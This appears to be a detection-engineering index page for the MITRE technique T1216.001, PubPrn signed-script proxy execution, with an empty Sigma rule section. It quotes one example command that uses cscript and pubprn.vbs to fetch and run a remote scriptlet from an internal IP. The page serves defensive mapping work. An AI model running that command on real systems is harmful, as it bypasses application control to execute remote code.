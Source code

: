 
[back](../index.md)
Find sigma rule :x: 

# Attack: PubPrn 

Adversaries may use the trusted PubPrn script to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application control solutions that do not account for use of these scripts.

<code>PubPrn.vbs</code> is a Visual Basic script that publishes a printer to Active Directory Domain Services. The script is signed by Microsoft and can be used to proxy execution from a remote site.(Citation: Enigma0x3 PubPrn Bypass) An example command is <code>cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png</code>.

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1216.001


# Test : PubPrn.vbs Signed Script Bypass
## OS
  - windows


## Description:
Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.


# Sigma Rule


[back](../index.md)

